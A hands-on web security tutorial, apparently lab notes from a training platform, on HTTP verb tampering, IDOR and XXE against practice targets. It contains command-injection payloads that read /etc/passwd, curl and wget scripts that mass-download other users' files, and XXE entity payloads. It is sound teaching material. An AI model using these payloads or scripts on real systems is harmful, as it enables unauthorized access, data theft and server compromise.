# Web Attacks

This document covers common techniques for identifying and exploiting **web vulnerabilities**. It is intended as a practical, hands-on reference rather than a comprehensive theoretical guide.

---

# Table of Contents

- [Web Attacks](#web-attacks)
    - [Overview](#overview)
    
    - [HTTP Verb Tampering](#http-verb-tampering)
        - [Bypassing Basic Authentication](#bypassing-basic-authentication)
        - [Bypassing Security Filters](#bypassing-security-filters)
    
    - [Insecure Direct Object References (IDOR)](#insecure-direct-object-references-idor)
        - [Identifying IDORs](#identifying-idors)
        - [IDOR Enumeration](#idor-enumeration)
        - [Encoded Object References](#encoded-object-references)
        - [IDOR in APIs](#idor-in-apis)

    - [XML External Entity (XXE) Injection](#xml-external-entity-xxe-injection)
        - [XML Overview](#xml-overview)
        - [Local File Disclosure (LFI)](#local-file-disclosure-lfi)
        - [Advanced File Disclosure - CDATA](#advanced-file-disclosure---cdata)
        - [Advanced File Disclosure - Error Based](#advanced-file-disclosure---error-based)
        - [Out-of-band Data Exfiltration](#out-of-band-data-exfiltration)
        - [Automated Out-of-band Data Exfiltration](#automated-out-of-band-data-exfiltration)
    
    - [Web Attacks - Exploitation Example](#web-attacks---exploitation-example)

---

## Overview

Three common web attacks include:

- HTTP Verb Tampering
- Insecure Direct Object Reference (IDOR)
- XML External Entity (XXE) Injection

**HTTP verb tampering** exploits web servers that accept unexpected or unsupported HTTP methods. By sending malicious requests using alternative HTTP verbs, an attacker may bypass access controls, authentication checks, or security filters that are only enforced for specific methods (such as `GET` or `POST`).

**Insecure Direct Object Reference (IDOR)** is one of the most prevalent web vulnerabilities. IDOR occurs when an application exposes direct references to internal resources on the back-end server. These resources are often identified using predictable values such as numeric IDs. By manipulating these identifiers, an attacker may gain unauthorized access to other users’ data or restricted resources

**XML External Entity (XXE) injection** vulnerabilities arise when applications process XML input using outdated or insecure XML parsers. In such cases, an attacker may be able to inject malicious XML entities to read local files from the back-end server or interact with internal systems.

---

## HTTP Verb Tampering

The HTTP protocol supports multiple request methods, commonly referred to as **HTTP verbs**. Web applications are typically configured to accept specific verbs for particular functionalities and perform different actions depending on the method used.

The most common HTTP methods are `GET` and `POST`. However, an attacker can send **any valid HTTP method** and observe how the application responds. If the application or back-end server is not properly configured to handle unexpected or uncommon HTTP methods, this behavior may be abused to bypass security controls.

There are a total of **nine standard HTTP methods**. Aside from `GET` and `POST`, the most commonly encountered include:

| Verb            | Description                                                   |
| ----------------| --------------------------------------------------------------|
| `HEAD`          | Similar to `GET` but returns only HTTP headers                |
| `PUT`           | Writes a resource to a specified location                     |
| `DELETE`        | Deletes a resource at a specified location                    |
| `OPTIONS`       | Returns the HTTP methods supported by the server              |
| `PATCH`         | Applies a partial modification to a resource                  |

If not properly restricted, methods such as `PUT` or `DELETE` may allow an attacker to write or delete files on the back-end server.

HTTP verb tampering vulnerabilities typically arise due to **misconfigurations** in either the web server or the application logic itself. 

In some cases, server-side authentication controls are applied only to specific HTTP methods. This may leave other methods accessible without authentication. For example, the following Apache configuration restricts access only for `GET` and `POST` requests:

```xml
<Limit GET POST>
    Require valid-user
</Limit
```

In this configuration, requests using `GET` and `POST` require authentication. However, an attacker may attempt to use another HTTP method, such as `HEAD`, to access the same resource and potentially bypass authentication controls.

Applications may also be vulnerable due to **insecure or incomplete input validation logic** that does not account for all HTTP methods. For example, the following filter attempts to mitigate SQL injection:

```php
$pattern = "/^[A-Za-z\s]+$/";

if(preg_match($pattern, $_GET["code"])) {
    $query = "Select * from ports where port_code like '%" . $_REQUEST["code"] . "%'";
    ...SNIP...
}
```

In this case, the input validation is applied only to parameters received via `GET`. An attacker could still inject malicious SQL payloads by supplying the code parameter via a `POST` request, effectively bypassing the filter.

---

### Bypassing Basic Authentication

The target application is a simple file manager. New files can be added by entering a filename into the input field:


When attempting to delete a file by clicking the red `Reset` button, an **HTTP Basic Authentication** prompt appears and requests valid credentials:



Since no valid credentials are available, the request is denied and the user is redirected to a `401 Unauthorized` page:


Inspecting the redirected URL reveals that the restricted resource is located at `/admin/reset.php`:

```
http://94.237.57.115:53252/admin/reset.php?
```

At this point, it is unclear whether access is restricted only to `reset.php` or to the entire `/admin` directory. Attempting to browse directly to `/admin/` again results in an authentication prompt:

```
http://94.237.57.115:53252/admin/
```



This confirms that the entire `/admin` directory is protected by HTTP Basic Authentication.

The first step in exploiting this behavior is identifying which HTTP method the application uses to trigger the reset functionality. To do this, we intercept the request in **Burp Suite** when clicking the `Reset` button:

```
GET /admin/reset.php?
```


The application uses a `GET` request to perform the action.

We then attempt to bypass authentication by changing the HTTP method. In Burp Suite, `right-click` the request and select `Change request method`, replacing `GET` with `POST`:

```
POST /admin/reset.php?
```



The server still responds with `401 Unauthorized`, indicating that both `GET` and `POST` methods are correctly protected.

Next, we test additional HTTP methods such as `HEAD` and `OPTIONS`:

```
HEAD /admin/reset.php?
```

This request also returns `401 Unauthorized`, suggesting that `HEAD` is covered by the authentication rules.

Finally, we send an `OPTIONS` request:

```
OPTIONS /admin/reset.php?
```

This time, the server responds with `200 OK`, allowing the request to be processed without authentication:



Returning to the main page confirms that the reset functionality was executed. The files have been removed and replaced with a flag:

```
HTB{4lw4y5_c0v3r_4ll_v3rb5}
```


This vulnerability exists because **authentication controls were applied only to specific HTTP methods**. The server failed to enforce authentication consistently across all supported verbs, allowing an attacker to trigger sensitive functionality using an unexpected method.

This is a classic example of **HTTP Verb Tampering leading to authentication bypass**.

---

### Bypassing Security Filters

Another, more common form of HTTP verb tampering vulnerability arises from **incomplete or flawed input validation logic**. Security filters are often implemented to mitigate attacks such as SQL injection, command injection, and malicious file uploads. However, these filters are frequently applied only to specific HTTP methods, such as `GET` or `POST`.

When validation is enforced inconsistently, an attacker may bypass the filter simply by changing the HTTP method used in the request.

The target is the same application used in the previous section. This time, a security filter has been implemented to protect against various injection attacks.

We begin by attempting **command injection** using common command separators

```
GET /index.php?filename=test;
GET /index.php?filename=test'
```


All attempts result in an error message:

```
Malicious Request Denied!
```

This behavior indicates that a security filter is present on the back-end server and is actively blocking malicious input.

Next, we attempt to bypass the filter using HTTP verb tampering. We change the request method from `GET` to `POST` and resend the payload:

```
POST /index.php
filename=test;
```



This time, the request is processed successfully, confirming that the input validation logic is applied only to `GET` requests. We have successfully bypassed the security filter by using an alternative HTTP method.

With command injection confirmed, we escalate by executing a system command to read a sensitive file:

```bash
# Original
filename=test;cat /etc/passwd

# URL encoded
filename=test%3bcat+/etc/passwd
```

The server returns the contents of `/etc/passwd`, confirming **arbitrary command execution**:


Alternatively, we can copy the file into the web root and access it directly:

```bash
# Original
filename=test;cp /etc/passwd .

# URL encoded
filename=test%3bcp+/etc/passwd+.
```


This vulnerability exists because **input validation was enforced only for specific HTTP methods**. By switching from `GET` to `POST`, the attacker bypassed the security filter and achieved command execution.

This demonstrates how **HTTP verb tampering can be used to bypass security controls**, ultimately leading to sensitive file disclosure and full compromise of the application.

---

## Insecure Direct Object References (IDOR)

Insecure Direct Object Reference (IDOR) vulnerabilities occur when an application exposes **direct references to internal resources** stored on the back-end server without enforcing proper access control. **IDOR is among the most common web vulnerabilities** encountered in real-world applications.

Consider an application that exposes direct references to uploaded files, such as:

```
download.php?file_id=123
```

In this example, the application directly references a file using a numeric identifier. An attacker may attempt to access a different resource by modifying the identifier value:

```
download.php?file_id=120
```

If the application relies solely on the provided identifier and fails to verify whether the requesting user is authorized to access the referenced object, unauthorized files may be disclosed. In such cases, an attacker can easily **enumerate object identifiers** and access sensitive resources belonging to other users.

It is important to note that exposing a direct reference to an object is **not inherently a vulnerability**. The issue arises when direct object references are combined with **missing or broken access control checks**, allowing unauthorized access to protected resources.

---

### Identifying IDORs

To identify IDOR vulnerabilities, it is essential to closely examine **HTTP requests and responses**. Pay particular attention to **URL parameters, cookies, and API requests** that contain object references, such as:

```
?uid=1

?filename=file_1.pdf
```

In the most basic cases, simply modifying the object reference may result in unauthorized information disclosure:

```
?uid=2

?filename=file_2.pdf
```

It is common to automate this enumeration process using fuzzing to identify accessible object identifiers.

Another effective technique for identifying IDOR vulnerabilities is analyzing the **front-end source code**. Unused parameters, hidden API endpoints, or privileged functionality can often be discovered by inspecting **JavaScript and AJAX calls**. Some applications insecurely expose function calls on the client side and rely on front-end logic to restrict access based on the user’s role.

A basic AJAX request may look like the following:

```javascript
function changeUserPassword() {
    $.ajax({
        url:"change_password.php",
        type: "post",
        dataType: "json",
        data: {uid: user.uid, password: user.password, is_admin: is_admin},
        success:function(result){
            //
        }
    });
}
```

Although this function may only be triggered for administrative users through the interface, its presence in the page source allows an attacker to **manually invoke the request** and test for IDOR vulnerabilities.

Object references are often **encoded or hashed** in an attempt to obscure their values. These references may still be exploitable if the back-end does not enforce proper access control. Common encoding or hashing schemes include `base64` and `md5`.

When a reference is encoded, the typical approach is to decode the value, modify it, and re-encode it. For example:

```bash
# Base64-encoded
filename=ZmlsZV8xMjMucGRm

# Plain text
filename=file_123.pdf

# Modified plain text
filename=file_124.pdf

# Base64-encoded
filename=ZmlsZV8xMjQucGRm
```

If the object reference appears to be hashed, tools such as `hashid` can be used to identify the hashing algorithm. Additionally, inspecting the page source may reveal the function responsible for generating the hash.

Suppose the following object reference is observed:

```
filename=c81e728d9d4c2f636f067f89cc14862c
```

Further inspection of the page source reveals the following JavaScript code:

```javascript
$.ajax({
    url:"download.php",
    type: "post",
    dataType: "json",
    data: {filename: CryptoJS.MD5('file_1.pdf').toString()},
    success:function(result){
        //
    }
});
```

In this case, the application uses `md5` to hash object references. Once the plaintext filename is identified—using tools such as `hashcat` or online services like `CrackStation`—an attacker can generate valid hashes for other files following the same naming pattern.

A more advanced IDOR technique involves **comparing object references across multiple user accounts**. This approach typically requires the ability to register or control multiple users. By comparing HTTP requests made by different users, it may be possible to identify how object identifiers are generated and forge requests to access other users’ data.

For example, one user may trigger the following API response:

```json
{
  "attributes" : 
    {
      "type" : "salary",
      "url" : "/services/data/salaries/users/1"
    },
  "Id" : "1",
  "Name" : "User1"
}
```

Another user may not have direct access to this API endpoint. However, by replicating the request and modifying the object reference, an attacker can test whether the application properly enforces access control or discloses sensitive data.

---

### IDOR Enumeration

Once an IDOR vulnerability has been identified, the next step is to **systematically enumerate accessible objects** using basic exploitation techniques.

The target application is an employee management system used to host employee records. For simplicity, we assume we are authenticated as a user with `uid=1`. In a real-world scenario, this would require valid login credentials.


When navigating to the `Documents` section, we are redirected to:

```
http://94.237.57.211:47065/documents.php
```



On the `Documents` page, several files belonging to our user are listed:

```
http://94.237.57.211:47065/documents/Report_1_10_2021.pdf
http://94.237.57.211:47065/documents/Invoice_1_09_2021.pdf
```

The filenames follow a predictable naming convention and are directly exposed in the URL, making them **direct object references**. The naming pattern includes the user ID (`uid`), as well as the month and year. This represents the most basic form of IDOR, often referred to as a **static file IDOR**.

Inspecting the request reveals that the application sets the user identifier via a `POST` parameter:

```
POST /documents.php
uid=1
```


By simply modifying the `uid` value, we are able to access documents belonging to another employee:

```
POST /documents.php
uid=2
```



```
http://94.237.57.211:47065/documents/Report_2_10_2021.pdf
http://94.237.57.211:47065/documents/Invoice_2_09_2021.pdf
```
This confirms the presence of an IDOR vulnerability caused by **missing server-side authorization checks**.

Enumeration of accessible user IDs can be easily automated using `ffuf`:

```bash
seq 1 20 > ids.txt
```

```bash
ffuf -w ids.txt:FUZZ -u http://94.237.57.211:47065/documents.php?uid=FUZZ
```

A more effective approach is to automate both enumeration and file retrieval using a simple `Bash` script:

`GET`-based IDOR enumeration script:

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"
ext="pdf|txt|doc|docx|xls|xlsx|csv|zip"

for i in {1..20}; do
    for link in $(curl -s "$url/documents.php?uid=$i" | grep -oiE "/documents[^\"' ]*\.($ext)" | sort -u); do
        wget -q "$url/$link"
    done
done
```

`POST`-based IDOR enumeration script:
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"
ext="pdf|txt|doc|docx|xls|xlsx|csv|zip"

for i in {1..20}; do
    for link in $(curl -s -X POST -d "uid=$i" "$url/documents.php" | grep -oiE "/documents[^\"' ]*\.($ext)" | sort -u); do
        wget -q "$url/$link"
    done
done

```

When executed, this script iterates through user IDs 1–20, extracts document links, and downloads all available files. This results in **mass disclosure of sensitive employee documents**, fully exploiting the IDOR vulnerability.

---

### Encoded Object References

In some applications, object references are encoded or hashed before being sent to the client. While this may make IDOR enumeration less obvious, it does not prevent exploitation if proper access control is not enforced on the back end.

When clicking on a file such as `Employment_contract.pdf`, a download process is triggered:


Intercepting the request reveals that the object reference is encoded:

```
http://94.237.121.92:56620/download.php?contract=MQ%3D%3D
```

Using a `download.php` script to serve files is a common practice, as it avoids exposing direct file paths. In this case, the object reference appears to be URL-encoded:

```bash
# URL encoded
MQ%3D%3D

# URL decoded
MQ==
```

The decoded value resembles a `Base64`-encoded string. This indicates that the object reference has been encoded twice: first using `Base64`, and then URL-encoded for safe transmission in the query string.

```bash
# Base64 encoded
MQ==

# Base64 decoded
1
```

After fully decoding the parameter, we recover the original object identifier:

```
http://94.237.121.92:56620/download.php?contract=1
```

If the application is vulnerable to IDOR, we can access other users’ contracts by encoding different object identifiers using the same encoding chain (Base64 &rarr; URL encoding).

To automate enumeration and download all employee contracts, we can write a simple Bash script.

`GET`-based version
```bash
#!/bin/bash

for i in {1..20}; do
    id=$(echo -n "$i" | base64)
    curl -sOJ --get --data-urlencode "contract=$id" http://94.237.121.92:56620/download.php
done
```

`POST`-based version
```bash
#!/bin/bash
for i in {1..20}; do
    for id in $(echo -n $i | base64); do
        curl -sOJ --data-urlencode "contract=$id" http://94.237.121.92:56620/download.php
    done
done
```

Both scripts enumerate object identifiers, encode them appropriately, and download all accessible contracts, confirming the presence of an IDOR vulnerability.

Running the script results in multiple downloaded contract files:



The downloaded filenames are obfuscated using `md5` hashing. Since we do not know which file contains the target data, we can inspect the contents of each file.

One simple approach is to concatenate all files and review the output:

```bash
ls | xargs cat
```

Most files are empty; however, one file contains the flag:


---

### IDOR in APIs

IDOR vulnerabilities frequently occur in **API endpoints and back-end function calls**, where user-controlled identifiers are used to reference internal objects. When access control checks are missing or improperly enforced, an attacker may be able to perform actions on behalf of other users, resulting in unauthorized data access or modification.

In this scenario, we assess the target’s `Edit Profile` functionality. 


The `Edit Profile` feature allows employees to modify their own profile information.



By intercepting the request in **Burp Suite**, we observe that the application sends profile updates via a `PUT` request containing `JSON` data to the following API endpoint:

```
/profile/api.php/profile/1
```



We also note that the application relies on a client-side cookie to define the user’s role:

```
Cookie: role=employee
```

This indicates that authorization logic is at least **partially handled client-side**, which is a common security anti-pattern. In such cases, an attacker may attempt to escalate privileges by manipulating the role value (e.g., changing it to `admin`) or by modifying user identifiers such as `uid`.

However, attempts to directly modify the `role` or `uid` parameters fail. This suggests that the application enforces server-side authorization checks for these specific operations, and the endpoint is not vulnerable to **insecure function calls via direct parameter tampering**.

We continue testing the API for **information disclosure vulnerabilities** by manipulating the HTTP method. Instead of using `PUT`, we switch to a `GET` request and attempt to retrieve data associated with another user by specifying a different user ID:

```
/profile/api.php/profile/5
```



This request succeeds, and the API returns sensitive information belonging to another user:


Most notably, the response reveals the user’s `UUID`, which was previously unknown and could not be predicted. This `UUID` can be leveraged to perform authenticated actions against the target user’s profile.

Using the disclosed `UUID`, we send a PUT request to update the victim’s `full_name` field to `PWNED!`:



Repeating the `GET` request confirms that the profile information has been successfully modified:



At this stage, we have successfully identified and exploited an **IDOR vulnerability caused by information disclosure via HTTP verb tampering**. The application exposes sensitive user data when accessed with unsupported HTTP methods, enabling unauthorized object access and modification.

The next logical step is to leverage this vulnerability to enumerate additional users. To do so, we write a simple `Bash` script that iterates through user IDs in the range 1–20 and filters for accounts containing the string `admin`:

```bash
#!/bin/bash

url=http://IP:PORT

for i in {1..20}; do
    curl -s "$url/profile/api.php/profile/$i" | grep -i "admin" | jq
done
```

Executing the script reveals an administrative account with the role `staff_admin`:



Finally, by issuing a `PUT` request to modify the administrator’s email address to `flag@idor.htb`, the application displays the flag on the profile page:



---

## XML External Entity (XXE) Injection

**XML External Entity (XXE) Injection** vulnerabilities occur when an application processes **user-supplied XML input** without securely configuring its XML parser. When external entities are enabled, an attacker may be able to manipulate the XML structure to access local files, interact with internal services, or cause denial-of-service conditions.

Due to its potential impact, XXE injection is considered one of the **OWASP Top 10 Web Security Risks**.

---

### XML Overview

**Extensible Markup Language (XML)** is designed for structured storage and transfer of data. Unlike HTML, which focuses on presentation, XML is primarily used to represent data in hierarchical structures.

An XML document is composed of an **element tree**, where:

- Each element is defined by an opening and closing tag
- The top-level element is known as the `root element`
- All nested elements are referred to as `child elements`

A simple XML document may appear as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<email>
  <date>01-01-2022</date>
  <time>10:00 am UTC</time>
  <sender>john@inlanefreight.com</sender>
  <recipients>
    <to>HR@inlanefreight.com</to>
    <cc>
        <to>billing@inlanefreight.com</to>
        <to>payslips@inlanefreight.com</to>
    </cc>
  </recipients>
  <body>
  Hello,
      Kindly share with me the invoice for the payment made on January 1, 2022.
  Regards,
  John
  </body> 
</email>
```

In this example, `<email>` is the `root element`, while all other tags represent `child elements`.

**A Document Type Definition (DTD)** is used to define and validate the structure of an XML document. It specifies which elements are allowed, their order, and their content types.

The DTD for the XML document above may look like the following:

```xml
<!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to  (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```

This DTD declares:

- `email` as the root element
- The required child elements and their order
- Elements containing raw character data using `#PCDATA`

A DTD may be declared **inline** within the XML document, immediately after the XML declaration:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to  (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
<email>
  <date>01-01-2022</date>
  <time>10:00 am UTC</time>
  <sender>john@inlanefreight.com</sender>
  <recipients>
    <to>HR@inlanefreight.com</to>
    <cc>
        <to>billing@inlanefreight.com</to>
        <to>payslips@inlanefreight.com</to>
    </cc>
  </recipients>
  <body>
  Hello,
      Kindly share with me the invoice for the payment made on January 1, 2022.
  Regards,
  John
  </body> 
</email>
```

DTD definitions may also be stored in an **external file** and referenced using the `SYSTEM` keyword:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "email.dtd">
<email>
  <date>01-01-2022</date>
  <time>10:00 am UTC</time>
  <sender>john@inlanefreight.com</sender>
  <recipients>
    <to>HR@inlanefreight.com</to>
    <cc>
        <to>billing@inlanefreight.com</to>
        <to>payslips@inlanefreight.com</to>
    </cc>
  </recipients>
  <body>
  Hello,
      Kindly share with me the invoice for the payment made on January 1, 2022.
  Regards,
  John
  </body> 
</email>
```

The external DTD can also be referenced via a **remote URL**, which is often abused during XXE exploitation:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "http://IP:PORT/email.dtd">
<email>
  <date>01-01-2022</date>
  <time>10:00 am UTC</time>
  <sender>john@inlanefreight.com</sender>
  <recipients>
    <to>HR@inlanefreight.com</to>
    <cc>
        <to>billing@inlanefreight.com</to>
        <to>payslips@inlanefreight.com</to>
    </cc>
  </recipients>
  <body>
  Hello,
      Kindly share with me the invoice for the payment made on January 1, 2022.
  Regards,
  John
  </body> 
</email>
```

When external entity resolution is enabled, the parser may retrieve and process remote resources, leading to **file disclosure, SSRF, or remote code execution** depending on the parser configuration.

XML allows the definition of **custom entities**, which function as XML variables. Entities are declared using the `ENTITY` keyword:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

Entities are referenced using an ampersand (`&`) and a semicolon (`;`), such as `&company;`. During parsing, the entity reference is replaced with its defined value.

Entities may also reference external resources using the `SYSTEM` keyword:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://localhost/company.txt">
  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```

When improperly handled, external entity resolution enables attackers to **read local files, access internal network resources, or exfiltrate data** through out-of-band channels.

---

### Local File Disclosure (LFI)

When an application processes **user-controlled XML input** without securely disabling external entity resolution, an attacker may be able to define **custom XML entities** that reference local system files. If the application reflects the entity output in its response, this can lead to **local file disclosure (LFI)**.

**Step 1: Identify XML Input Handling**

The first step in identifying XXE vulnerabilities is determining whether the target application **accepts and processes XML input**.

The target application provides a `Contact Form` located at:

```
http://IP:PORT/index.php
```



After submitting the form and intercepting the request in **Burp Suite**, we observe that the application sends the input using a `POST` request containing XML data to the following endpoint:

```
http://IP:PORT/submitDetails.php
```


This confirms that the application uses XML to transfer user-supplied data to the back-end server, making it a valid candidate for XXE testing. 

**Step 2: Identify Reflected XML Elements**

The next step is identifying whether any XML elements are **reflected in the server’s response**. To successfully exploit XXE for file disclosure, the injected entity must be referenced within an element that is displayed back to the user.

Upon submitting the contact form, we observe that the `email` element is reflected in the response:

```
Check you email <email> for further instructions.
```


This makes the `email` element a suitable injection point.

**Step 3: Test for XXE Injection**

To verify whether an XXE vulnerability exists, we attempt to inject a **custom XML entity** and reference it within the reflected `email` element. If the application resolves and displays the entity value, XXE injection is confirmed.

We define an inline XML entity:

```xml
<!DOCTYPE email [
<!ENTITY test "You have been hacked">
]>
```

We then reference the entity within the `email` element:

```xml
<email>
    &test;
</email>
```


The server response includes the injected entity value, confirming that the application resolves external entities and is therefore **vulnerable to XXE injection**.

**Step 4: Exploit XXE for Local File Disclosure**

With XXE confirmed, we define a new entity that references a local file using the `file://` URI scheme:

